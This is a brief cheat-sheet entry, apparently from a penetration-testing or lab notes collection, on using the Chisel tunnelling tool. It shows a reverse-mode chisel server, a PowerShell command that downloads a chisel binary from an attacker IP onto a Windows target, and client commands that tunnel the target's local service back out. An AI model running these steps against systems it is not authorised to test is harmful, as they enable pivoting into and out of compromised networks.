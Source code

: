 # Chisel

is a tool using SOCKS and allows you to forward traffic from an local service
to your local machine.

---

#### Syntax

executing command on local instance

chisel server -p 9999 --reverse

upload correct chisel file (x64/x86) into target

powershell -c iwr http://10.10.14.187:8000/chisel_winx64.exe

executing command on target windows x64 server

chisel_winx64.exe client 10.10.14.187:<chisel_server_port> R:<local_machine_port>:localhost:<service_port>

chisel2.exe client 10.10.14.187:9999 R:8888:localhost:8888


